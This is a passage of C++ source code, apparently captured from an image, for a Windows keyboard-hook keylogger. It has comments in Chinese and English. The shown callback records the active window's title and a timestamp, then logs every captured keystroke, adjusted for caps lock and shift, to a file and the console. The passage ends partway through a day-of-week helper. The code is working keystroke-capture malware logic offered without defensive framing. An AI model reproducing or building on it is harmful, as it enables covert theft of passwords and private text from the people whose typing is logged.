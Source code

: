 ```
            //  Retrieves a handle to the foreground window (the window with which the user is currently working).
            HWND currentWindow = GetForegroundWindow();  //  返回前台窗口，获得当前窗口
            //  Check if we need to write new window output
            if (currentWindow != lastWindow)
            {
                SYSTEMTIME t{};
                GetLocalTime(&t);  //  获得当前系统时间
                int day = t.wDay;
                int month = t.wMonth;
                int year = t.wYear;
                int hour = t.wHour;
                int min = t.wMinute;
                int sec = t.wSecond;
                int dayName = t.wDayOfWeek;
                //  Build our output header
                ssTemp << "\n\n[+] " << Dayofweek(dayName) << " - " << day << "/" << month << "/" << year << "  ";
                ssTemp << hour << ":" << min << ":" << sec;
                outPut.append(ssTemp.str());
                ssTemp.clear();
                //  GetWindowTextACCC
                int c = GetWindowTextA(GetForegroundWindow(), cWindow, sizeof(cWindow));
                cout << c;
                ssTemp << " - Current Window: " << cWindow << "\n\n";
                //outPut.append(temp.str());
                cout << ssTemp.str() << endl;
                myfile << ssTemp.str();

                // Setup for next CallBackCC
                lastWindow = currentWindow;
            }
            //  Now capture keys
            if (p->vkCode)
            {
                ssTemp.clear();
                ssTemp << HookCode(p->vkCode, caps, bShift);
                cout << ssTemp.str();
                myfile << ssTemp.str();

            }
            //  Final output logic
        }
    }
    //  hook procedure must pass the message *Always*
    myfile.close();
    return CallNextHookEx(NULL, nCode, wParam, lParam);  //  hook链
}
/********************************************************
函数作用：时间
返回值：返回时间
*********************************************************/
string Dayofweek(int code)
{
    // Return Day of the year in text
    string name;
    switch (code)
    {
    case 0: name = "[SUNDAY]"; break;
    case 1: name = "[MONDAY]"; break;
    case 2: name = "[TUESDAY]"; break;
    case 3: name = "[WENSDAY]"; break;
    case 4: name = "[THURSDAY]"; break;
```